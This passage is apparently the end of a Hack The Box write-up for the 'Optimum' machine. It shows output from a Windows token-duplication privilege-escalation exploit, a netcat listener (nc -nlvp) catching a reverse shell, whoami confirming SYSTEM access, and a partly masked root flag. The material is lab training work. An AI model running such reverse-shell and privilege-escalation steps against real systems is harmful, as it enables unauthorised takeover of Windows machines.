 ```
[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!
```
And the listener will be netcat 
```
┌──(gemstone㉿hashghost)-[~/C7F5/htb/OSCP/Optimum]
└─$ nc -nlvp 9006
```
**Result**
```
PS C:\Users\kostas\Desktop>whoami
nt authority\system
```
Now i have the shell back as system user 

**System Flag**

```
PS C:\Users\administrator\desktop> type root.txt
942971c8bf********************
```

The End.

Thanks For Reading.
```
Mungu Nisaidie
```